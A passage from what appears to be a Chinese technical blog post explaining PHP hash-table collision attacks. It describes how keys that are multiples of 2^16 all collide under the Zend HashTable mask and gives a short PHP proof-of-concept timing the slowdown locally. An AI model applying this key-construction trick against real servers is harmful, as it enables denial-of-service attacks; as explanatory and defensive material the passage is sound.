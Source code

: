 基本攻击

知道了PHP内部哈希表的算法，就可以利用其原理构造用于攻击的数据。一种最简单的方法是利用掩码规律制造碰撞。上文提到Zend HashTable的长度nTableSize会被圆整为2的整数次幂，假设我们构造一个2^16的哈希表，则nTableSize的二进制表示为：1 0000 0000 0000 0000，而nTableMask = nTableSize – 1为：0 1111 1111 1111 1111。接下来，可以以0为初始值，以2^16为步长，制造足够多的数据，可以得到如下推测：

0000 0000 0000 0000 0000 & 0 1111 1111 1111 1111 = 0

0001 0000 0000 0000 0000 & 0 1111 1111 1111 1111 = 0

0010 0000 0000 0000 0000 & 0 1111 1111 1111 1111 = 0

0011 0000 0000 0000 0000 & 0 1111 1111 1111 1111 = 0

0100 0000 0000 0000 0000 & 0 1111 1111 1111 1111 = 0

……

概况来说只要保证后16位均为0，则与掩码位于后得到的哈希值全部碰撞在位置0。

下面是利用这个原理写的一段攻击代码：

```
<?php

$size = pow(2, 16);

$startTime = microtime(true);

$array = array();
for ($key = 0, $maxKey = ($size - 1) * $size; $key <= $maxKey; $key += $size) {
    $array[$key] = 0;
}

$endTime = microtime(true);

echo $endTime - $startTime, ' seconds', "\n";
```
这段代码在我的VPS上（单CPU，512M内存）上用了近88秒才完成，并且在此期间CPU资源几乎被用尽：

PHP哈希表碰撞攻击原理

PHP哈希表碰撞攻击原理

而普通的同样大小的哈希表插入仅用时0.036秒：

```
<?php

$size = pow(2, 16);

$startTime = microtime(true);

$array = array();
for ($key = 0, $maxKey = ($size - 1) * $size; $key <= $size; $key += 1) {
    $array[$key] = 0;
}

$endTime = microtime(true);

echo $endTime - $startTime, ' seconds', "\n";
```
PHP哈希表碰撞攻击原理
